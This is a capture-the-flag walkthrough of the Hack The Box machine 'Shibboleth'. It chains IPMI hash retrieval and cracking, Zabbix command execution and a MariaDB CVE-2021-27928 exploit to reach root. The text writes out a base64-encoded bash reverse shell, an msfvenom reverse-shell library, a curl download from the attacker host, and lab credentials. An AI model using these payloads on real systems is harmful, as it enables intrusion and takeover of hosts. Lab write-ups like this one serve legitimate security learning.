










# Shibboleth

## Machine Info



## Recon

### port

- nmap

```console
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://shibboleth.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (92%), Android 4.4.0 (92%), Linux 4.15 - 5.8 (91%), Linux 5.3 - 5.4 (91%), Cisco CP-DX80 collaboration endpoint (Android) (91%), Linux 3.6 - 3.10 (91%), Linksys EA3500 WAP (91%), Linux 2.6.32 (91%), Linux 5.0 - 5.5 (90%), Websense Content Gateway (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: shibboleth.htb
```

### subdomain

- gobuster
  - `monitor.shibboleth.htb`
  - `monitoring.shibboleth.htb`
  - `zabbix.shibboleth.htb`, these three pages are the same

```console
└─╼$ gobuster vhost -u http://shibboleth.htb --append-domain -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt | grep -v 'Status: 302'
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://shibboleth.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: monitor.shibboleth.htb Status: 200 [Size: 3686]
Found: monitoring.shibboleth.htb Status: 200 [Size: 3686]
Found: zabbix.shibboleth.htb Status: 200 [Size: 3686]
Progress: 114441 / 114442 (100.00%)
===============================================================
Finished
===============================================================
```



### path

- gobuster
  - `http://zabbix.shibboleth.htb/`
  - this site needs to be authenticated

```console
└─╼$ gobuster dir -u http://zabbix.shibboleth.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 64 -x php --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://zabbix.shibboleth.htb/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/include              (Status: 301) [Size: 332] [--> http://zabbix.shibboleth.htb/include/]
/assets               (Status: 301) [Size: 331] [--> http://zabbix.shibboleth.htb/assets/]
/app                  (Status: 301) [Size: 328] [--> http://zabbix.shibboleth.htb/app/]
/services.php         (Status: 200) [Size: 1831]
/image.php            (Status: 200) [Size: 1828]
/index.php            (Status: 200) [Size: 3686]
/fonts                (Status: 301) [Size: 330] [--> http://zabbix.shibboleth.htb/fonts/]
/audio                (Status: 301) [Size: 330] [--> http://zabbix.shibboleth.htb/audio/]
/conf                 (Status: 301) [Size: 329] [--> http://zabbix.shibboleth.htb/conf/]
/map.php              (Status: 200) [Size: 1826]
/setup.php            (Status: 200) [Size: 1828]
/local                (Status: 301) [Size: 330] [--> http://zabbix.shibboleth.htb/local/]
/history.php          (Status: 200) [Size: 1830]
/maintenance.php      (Status: 200) [Size: 1834]
/js                   (Status: 301) [Size: 327] [--> http://zabbix.shibboleth.htb/js/]
/templates.php        (Status: 200) [Size: 1832]
/applications.php     (Status: 200) [Size: 1835]
/locale               (Status: 301) [Size: 331] [--> http://zabbix.shibboleth.htb/locale/]
/modules              (Status: 301) [Size: 332] [--> http://zabbix.shibboleth.htb/modules/]
/items.php            (Status: 200) [Size: 1828]
/vendor               (Status: 301) [Size: 331] [--> http://zabbix.shibboleth.htb/vendor/]
/slides.php           (Status: 200) [Size: 1829]
/chart.php            (Status: 200) [Size: 1828]
/graphs.php           (Status: 200) [Size: 1829]
/overview.php         (Status: 200) [Size: 1831]
/screens.php          (Status: 200) [Size: 1830]
/server-status        (Status: 403) [Size: 286]
/.php                 (Status: 403) [Size: 286]
/hosts.php            (Status: 200) [Size: 1828]
/queue.php            (Status: 200) [Size: 1828]
/triggers.php         (Status: 200) [Size: 1831]
/report2.php          (Status: 200) [Size: 1830]
/.php                 (Status: 403) [Size: 286]
/chart2.php           (Status: 200) [Size: 1829]
/index.php            (Status: 200) [Size: 3686]
/.php                 (Status: 403) [Size: 286]
Progress: 124568 / 124570 (100.00%)
===============================================================
Finished
===============================================================
```

### web

There are two domain names:

1. `http://shibboleth.htb/` hosted on two services
   1. **Zabbix**
   2. Bare Metal BMC => **IPMI**, the more information is left in <u>Beyond Root</u>


2. `http://zabbix.shibboleth.htb/`
   - [zabbix/zabbix: Real-time monitoring of IT components and services, such as networks, servers, VMs, applications and the cloud. (github.com)](https://github.com/zabbix/zabbix)
   - [Zabbix Manual](https://www.zabbix.com/documentation/6.2/en/manual)

### ipmi

Enumerate IPMI version:

```console
└─╼$ sudo nmap -sU --script ipmi-version -p 623 10.10.11.124
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-03 07:13 EST
Nmap scan report for shibboleth.htb (10.10.11.124)
Host is up (0.037s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version:
|     IPMI-2.0
|   UserAuth: password, md5, md2, null
|   PassAuth: auth_msg, auth_user, non_null_user
|_  Level: 1.5, 2.0

Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds
```

## Foothold

### ipmi 2.0 remote hash retrieval

[623/UDP/TCP - IPMI - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi#vulnerability-ipmi-2.0-rakp-authentication-remote-password-hash-retrieval)



Hash mode is `7300 | IPMI2 RAKP HMAC-SHA1 | Network Protocol` => crack to get credential: `Administrator:ilovepumkinpie1` and successfully login into Zabbix.



### zabbix run system command

Search around Google about how to execute system command inside authenticated Zabbix: [system administration - How to run command on Zabbix agents? - Stack Overflow](https://stackoverflow.com/questions/24222086/how-to-run-command-on-zabbix-agents)





**POC**:

```console
└─╼$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
08:44:18.184098 IP 10.10.11.124 > 10.10.14.14: ICMP echo request, id 1, seq 1, length 64
08:44:18.184132 IP 10.10.14.14 > 10.10.11.124: ICMP echo reply, id 1, seq 1, length 64
```



**Exploit**:

1. base64 encode the payload to avoid some special char (like +,-,= e.t.) => **payload**:`echo YmFzaCAtYyAiYmFzaCAtaSAgPiYvZGV2L3RjcC8xMC4xMC4xNC4xNC8xMjM0ICAwPiYxIiAK | base64 -d | bash`

```console
└─╼$ echo 'bash -c "bash -i  >&/dev/tcp/10.10.14.14/1234  0>&1" ' | base64
YmFzaCAtYyAiYmFzaCAtaSAgPiYvZGV2L3RjcC8xMC4xMC4xNC4xNC8xMjM0ICAwPiYxIiAK
```

2. trigger the payload to run the system command, but the shell flashes down quickly => the reverse shell is killed by zabbix when the Get_Value is finished => how to fix this? => [double shell] when getting the first shell, fast init another revshell (kill one shell, while the other is alive)



## Privilege Escalation

### zabbix -> ipmi-svc

Thie cred: `Administrator:ilovepumkinpie1` -> can login to zabbix & cracked through impi -> is also the user ipmi-svc

```console
zabbix@shibboleth:/var/lib$ su ipmi-svc
su ipmi-svc
Password: ilovepumkinpie1
ipmi-svc@shibboleth:/var/lib$ id
uid=1000(ipmi-svc) gid=1000(ipmi-svc) groups=1000(ipmi-svc)
ipmi-svc@shibboleth:/var/lib$ uname -a
Linux shibboleth 5.4.0-89-generic #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

### ipmi-svc -> root

Enumeration: linpeas, pspy64, netstat

```console
zabbix@shibboleth:/var/lib$ netstat -tunlp
netstat -tunlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:10050           0.0.0.0:*               LISTEN      912/zabbix_agentd
tcp        0      0 0.0.0.0:10051           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::10050                :::*                    LISTEN      912/zabbix_agentd
tcp6       0      0 :::10051                :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 127.0.0.1:161           0.0.0.0:*                           -
udp        0      0 0.0.0.0:623             0.0.0.0:*                           -
udp6       0      0 ::1:161                 :::*                                -
```



```console
ipmi-svc@shibboleth:~$ mysql --version
mysql  Ver 15.1 Distrib 10.3.25-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2
```

Now, we know that the mysql service (**MariaDB 10.3.25**) is hosted by **root** and **Zabbix** uses a mysql db service. So, check Zabbix configuration files to get the credential to login mysql db.

```console
ipmi-svc@shibboleth:/var/lib$ cat /etc/zabbix/zabbix_server.cat /etc/zabbix/zabbix_server.conf | grep -v "#" | sort -u
AlertScriptsPath=/usr/lib/zabbix/alertscripts
DBName=zabbix
DBPassword=bloooarskybluh
DBUser=zabbix
ExternalScripts=/usr/lib/zabbix/externalscripts
Fping6Location=/usr/bin/fping6
FpingLocation=/usr/bin/fping
LogFileSize=0
LogFile=/var/log/zabbix/zabbix_server.log
LogSlowQueries=3000
PidFile=/run/zabbix/zabbix_server.pid
SNMPTrapperFile=/var/log/snmptrap/snmptrap.log
SocketDir=/run/zabbix
StatsAllowedIP=127.0.0.1
Timeout=4
```

Enumerate mysql db and get some hash values:

```console
MariaDB [zabbix]> describe users;
describe users;
+----------------+---------------------+------+-----+---------+-------+
| Field          | Type                | Null | Key | Default | Extra |
+----------------+---------------------+------+-----+---------+-------+
| userid         | bigint(20) unsigned | NO   | PRI | NULL    |       |
| alias          | varchar(100)        | NO   | UNI |         |       |
| name           | varchar(100)        | NO   |     |         |       |
| surname        | varchar(100)        | NO   |     |         |       |
| passwd         | varchar(60)         | NO   |     |         |       |
| url            | varchar(255)        | NO   |     |         |       |
| autologin      | int(11)             | NO   |     | 0       |       |
| autologout     | varchar(32)         | NO   |     | 15m     |       |
| lang           | varchar(5)          | NO   |     | en_GB   |       |
| refresh        | varchar(32)         | NO   |     | 30s     |       |
| type           | int(11)             | NO   |     | 1       |       |
| theme          | varchar(128)        | NO   |     | default |       |
| attempt_failed | int(11)             | NO   |     | 0       |       |
| attempt_ip     | varchar(39)         | NO   |     |         |       |
| attempt_clock  | int(11)             | NO   |     | 0       |       |
| rows_per_page  | int(11)             | NO   |     | 50      |       |
+----------------+---------------------+------+-----+---------+-------+
16 rows in set (0.001 sec)


MariaDB [zabbix]> select userid,alias,name,surname,passwd,type from users;
select userid,alias,name,surname,passwd,type from users;
+--------+---------------+--------------+---------------+--------------------------------------------------------------+------+
| userid | alias         | name         | surname       | passwd                                                       | type |
+--------+---------------+--------------+---------------+--------------------------------------------------------------+------+
|      1 | Admin         | Zabbix       | Administrator | $2y$10$L9tjKByfruByB.BaTQJz/epcbDQta4uRM/KySxSZTwZkMGuKTPPT2 |    3 |
|      2 | guest         |              |               | $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06 |    1 |
|      3 | Administrator | IPMI Service | Account       | $2y$10$FhkN5OCLQjs3d6C.KtQgdeCc485jKBWPW4igFVEgtIP3jneaN7GQe |    2 |
+--------+---------------+--------------+---------------+--------------------------------------------------------------+------+
3 rows in set (0.001 sec)
```

Unfortunately, these hash values are not crackable. Seach around MariaDB 10.3.25 and find [CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928) to have a command injection.



**Exploit**:

```console
# local host: create revshell payload
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f elf-so -o 
a.so
# remote host: download so file and make use of it through mysql
curl http://10.10.14.14/a.so -o /dev/shm/a.so
mysql -u zabbix -p -e 'SET GLOBAL wsrep_provider="/dev/shm/a.so";'
```

```console
└─╼$ sudo rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.124] 48348
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux shibboleth 5.4.0-89-generic #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

## Exploit Chain

port scan -> web recon: zabbix & impi -> impi version with remote hash retrieval -> crack hash to get zabbix page credential -> authenticated zabbix run system command -> zabbix rev shell -> cracked password to login as impi-svc shell -> mysql with root-priv & mysql version with rce cve -> root shell

### Beyond Root

### What is Bare Metal BMC & IPMI?

Bare Metal BMC (Baseboard Management Controller) automation refers to the use of automated tools and processes to manage and monitor the BMC on bare metal servers (physical servers without a virtualization layer installed). The BMC is a specialized microcontroller typically embedded in the server motherboard for monitoring and managing the hardware status of the server, such as temperature, voltage, fan speeds, and power. The BMC also allows administrators to perform power on, power off, and reboot operations, as well as remote server access, even when the operating system has crashed or is turned off.

